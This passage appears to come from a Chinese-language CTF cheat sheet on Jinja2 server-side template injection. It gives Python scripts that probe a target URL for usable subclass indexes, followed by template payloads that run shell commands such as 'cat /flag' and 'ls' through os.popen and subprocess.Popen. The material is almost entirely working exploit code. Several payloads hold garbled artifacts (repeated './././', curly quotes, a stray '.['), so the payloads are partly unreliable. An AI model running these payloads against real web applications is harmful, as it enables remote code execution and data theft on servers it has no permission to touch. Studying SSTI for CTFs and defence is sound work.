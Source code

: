 ```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib.BuiltinImporter' in str(response.content):
                print(i)
    except:
        pass



```

```php
{{[].__class__.__base__.__subclasses__()[69]["load_module"](./././././././././././"os")["popen"](./././././././././././"cat /flag").read()}}
```

#### subprocess.Popen模块

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'subprocess.Popen' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[200](./././././././././././'ls/',shell=True,stdout=-1).communicate()[0].strip()}}
```

#### importlib类执行命令

importlib类执行命令相当于自己导入，可以加载第三方库，使用load_module加载os

```
{{[].__class__.__base__.__subclasses__()[69].["load_module"](./././././././././././"os")[“popen”](./././././././././././‘ls’).read()}}
```
